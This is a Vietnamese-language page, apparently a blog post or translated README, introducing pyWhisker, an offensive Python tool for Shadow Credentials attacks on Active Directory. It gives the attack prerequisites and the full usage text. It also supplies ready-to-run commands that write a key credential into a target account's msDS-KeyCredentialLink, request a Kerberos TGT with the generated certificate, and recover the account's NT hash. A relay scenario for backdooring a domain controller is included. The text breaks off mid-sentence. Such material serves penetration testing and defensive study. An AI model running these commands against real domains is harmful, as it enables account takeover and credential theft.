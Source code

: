 ```yaml
---
title: Công cụ pywhisker
date: 1/8/2021
layout: single
header:
  teaser: https://github.com/ShutdownRepo/pywhisker/blob/main/.assets/add_pem.png?raw=true
--- 
```


## Giới thiệu PyWhisker 
Tác giả: ShutdownRepo

Khai thác: [github/ShutdownRepo/pywhiske](https://github.com/ShutdownRepo/pywhisker)

PyWhisker là một Python tương đương với [Whisker](https://github.com/eladshamir/Whisker) gốc do [Elad Shamir](https://twitter.com/elad_shamir) tạo ra và được viết bằng C#. Công cụ này cho phép người dùng thao tác thuộc tính `msDS-KeyCredentialLink` của người dùng / máy tính mục tiêu để có toàn quyền kiểm soát đối tượng đó. Nó dựa trên [Impacket](https://github.com/SecureAuthCorp/impacket) và trên Python tương đương với DSInternals của [Michael Grafnetter](https://twitter.com/MGrafnetter) được gọi là [PyDSInternals](https://github.com/p0dalirius/pydsinternals). Công cụ này, cùng với [PKINITtools](https://github.com/dirkjanm/PKINITtools) của [Dirk-jan](https://twitter.com/_dirkjan) cho phép khai thác hoàn toàn nguyên thủy chỉ trên các hệ thống dựa trên UNIX.

Điều kiện tiên quyết cho cuộc tấn công này như sau

1. Mức chức năng miền mục tiêu phải là Windows Server 2016 trở lên.
2. Miền đích phải có ít nhất một Bộ điều khiển miền chạy Windows Server 2016 trở lên.
3. Bộ điều khiển miền để sử dụng trong cuộc tấn công phải có chứng chỉ và khóa riêng (điều này có nghĩa là tổ chức phải có AD CS hoặc PKI, CA hoặc thứ gì đó tương tự).
4. Kẻ tấn công phải có quyền kiểm soát tài khoản có thể ghi thuộc tính msDs-KeyCredentialLink của tài khoản máy tính hoặc người dùng mục tiêu

Tại sao một số yêu cầu trước?

+ Yêu cầu trước 1 và 2 vì các tính năng PKINIT đã được giới thiệu với Windows Server 2016
+ Yêu cầu trước 3 vì DC cần chứng chỉ và khóa của riêng nó để trao đổi khóa phiên trong giao dịch `AS_REQ <-> AS_REP`.

A `KRB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP` sẽ được nâng lên nếu yêu cầu trước 3 không được đáp ứng.

Thông tin thêm về Shadow Credentials này
+ [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)
+ [The Hacker Recipes - ACEs abuse](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries)
+ [The Hacker Recipes - Shadow Credentials](https://www.thehacker.recipes/active-directory-domain-services/movement/access-control-entries/shadow-credentials)

## Sử dụng
pyWhisker hỗ trợ các xác thực sau

+ (NTLM) Cleartext password
+ (NTLM) [Pass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/pass-the-hash)
+ (Kerberos) Cleartext password
+ (Kerberos) [Pass-the-key](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-key) / [Overpass-the-hash](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/overpass-the-hash)
+ (Kerberos) [Pass-the-cache](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-cache) (type of [Pass-the-ticket](https://www.thehacker.recipes/active-directory-domain-services/movement/kerberos/pass-the-ticket))

Trong số những thứ khác, pyWhisker hỗ trợ nhiều cấp độ chi tiết, chỉ cần thêm `-v`,`-vv`

[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

```powershell
usage: pywhisker.py [-h] -t TARGET_SAMNAME [-a [{list,add,remove,clear,info}]] [--use-ldaps] [-v] [-q] [--no-pass] [--dc-ip ip address] [-d DOMAIN] [-u USER]
                    (-p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key | -k) [-cp CERT_PASSWORD] [-o OUTPUT_PATH] [-e {PEM, PFX}] [-D DEVICE_ID]

Python (re)setter for property msDS-KeyCredentialLink for Shadow Credentials attacks.

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET_SAMNAME, --target TARGET_SAMNAME
                        Target account
  -a [{list,add,remove,clear,info}], --action [{list,add,remove,clear,info}]
                        Action to operate on msDS-KeyCredentialLink
  --use-ldaps           Use LDAPS instead of LDAP
  -v, --verbose         verbosity level (-v for verbose, -vv for debug)
  -q, --quiet           show no information at all

authentication:
  --no-pass             don't ask for password (useful for -k)

authentication & connection:
  --dc-ip ip address    IP Address of the domain controller or KDC (Key Distribution Center) for Kerberos. If omitted it will use the domain part (FQDN) specified in the identity parameter
  -d DOMAIN, --domain DOMAIN
                        (FQDN) domain to authenticate to
  -u USER, --user USER  user to authenticate with
  -p PASSWORD, --password PASSWORD
                        password to authenticate with
  -H [LMHASH:]NTHASH, --hashes [LMHASH:]NTHASH
                        NT/LM hashes, format is LMhash:NThash
  --aes-key hex key     AES key to use for Kerberos Authentication (128 or 256 bits)
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line

arguments when setting -action to add:
  -cp CERT_PASSWORD, --cert-password CERT_PASSWORD
                        password for the stored self-signed certificate (will be random if not set)
  -o OUTPUT_PATH, --output-path OUTPUT_PATH
                        filename to store the generated self-signed PEM or PFX certificate and key
  -e {PEM, PFX}, --export {PEM, PFX}
                        choose to export cert+private key in PEM or PFX (i.e. #PKCS12) (default: PFX))

arguments when setting -action to remove:
  -D DEVICE_ID, --device-id DEVICE_ID
                        device ID of the KeyCredentialLink to remove when setting -action to remove

```
Dưới đây là các ví dụ và ảnh chụp màn hình về những gì PyWhisker có thể làm

## Liệt kê và nhận thông tin
PyWhisker có khả năng liệt kê các KeyCredentials hiện có. Ngoài ra, nó có thể mở toàn bộ cấu trúc để hiển thị mọi phần thông tin mà đối tượng chứa (bao gồm cả các tham số khóa công khai RSA)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "info" --device-id 6419739b-ff90-f5c7-0737-1331daeb7db6
```
![1](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/list_info.png)

## Clear and remove
PyWhisker có khả năng xóa các giá trị cụ thể hoặc xóa toàn bộ thuộc tính.
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id a8ce856e-9b58-61f9-8fd3-b079689eb46e
```
![2](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/remove.png)

```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "clear"
```
![3](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/clear.png)

## Thêm giá trị mới
PyWhisker có khả năng tạo khóa RSA, chứng chỉ X509, cấu trúc KeyCredential và ghi thông tin cần thiết dưới dạng giá trị mới của thuộc tính `msDs-KeyCredentialLink`. Chứng chỉ có thể được xuất ở định dạng PFX (# PKCS12, khóa riêng của chứng chỉ được bảo vệ bằng mật khẩu) hoặc ở định dạng PEM (chứng chỉ PEM, khóa riêng PEM, không cần mật khẩu).

## Ví dụ với định dạng PFX
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test1
```
![4](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py). Băm NT sau đó có thể được khôi phục bằng [getnthash.py](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py)

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```
![5](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pfx_gettgtnthash.png)

## Ví dụ với định dạng PEM
```powershell
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --output-path test2 --export PEM
```

![6](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem.png)

Khi các giá trị được tạo và thêm bởi pyWhisker, TGT có thể được yêu cầu với `gettgtpkinit.py1`. Băm NT sau đó có thể được khôi phục bằng `getnthash.py`.

```powershell
python3 PKINITtools/gettgtpkinit.py -cert-pem test2_cert.pem -key-pem test2_priv.pem domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key 894fde81fb7cf87963e4bda9e9e288536a0508a1553f15fdf24731731cecad16 domain.local/user2
```

![7](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/add_pem_gettgtnthash.png)

## Xác thực chuyển tiếp
[Yêu cầu](https://github.com/SecureAuthCorp/impacket/pull/1132) hiện đang chờ phê duyệt để đưa tính năng "thêm" của pywhisker vào ntlmrelayx

![8](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/relay.png)

## Kiến thức hữu ích
Đối tượng người dùng không thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng họ. Các đối tượng máy tính có thể. Điều này có nghĩa là tình huống sau có thể hoạt động: kích hoạt xác thực NTLM từ DC01, chuyển tiếp nó đến DC02, khiến pywhisker chỉnh sửa thuộc tính của DC01 để tạo cửa sau xác thực trước Kerberos PKINIT trên đó

![9](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/user_cant_self_edit.png)

Các đối tượng máy tính có thể chỉnh sửa thuộc tính `msDS-KeyCredentialLink` của riêng chúng nhưng chỉ có thể thêm KeyCredential nếu chưa có

![10](https://github.com/ShutdownRepo/pywhisker/raw/main/.assets/computers_can_self_edit.png)

Nếu bạn gặp lỗi, hãy đảm bảo không có sự chênh lệch về thời gian giữa máy chủ lưu trữ kẻ tấn công của bạn và Trung tâm phân phối khóa (thường là Bộ điều khiển miền). Để tránh lỗi đó, các chứng chỉ được tạo bởi công cụ pyWhisker có giá trị 40 năm trước ngày hiện tại và 40 năm sau.

## Tín dụng và tài liệu tham khảo
+ Tín dụng cho [Dirk-jan](https://twitter.com/_dirkjan) vì công việc của anh ấy trên [PKINITtools](https://github.com/dirkjanm/PKINITtools/). Ban đầu, chúng tôi đã lên kế hoạch tái cấu trúc các tập lệnh Impacket (đặc biệt là [gettgt.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py)) để triển khai xác thực trước PKINIT không đối xứng cho Kerberos. Anh ấy đã cứu chúng tôi rất nhiều đau đầu bằng cách viết nó trước chúng tôi!
+ Tín dụng cho toàn bộ nhóm đằng sau [Impacket](https://github.com/SecureAuthCorp/impacket/) và những người đóng góp của nó.
+ Tín dụng cho [Elad Shamir](https://twitter.com/elad_shamir), người đã tạo ra công cụ C # ban đầu ([Whisker](https://github.com/eladshamir/Whisker)) và cho [Michael Grafnetter's](https://twitter.com/MGrafnetter), người đã tạo ra [DSInternals](https://github.com/MichaelGrafnetter/DSInternals), một thư viện thực hiện hầu hết các công việc nặng nhọc của Whisker. Anh ấy cũng là người đã thực hiện bản demo đầu tiên của Mũ đen trình bày về đòn tấn công 
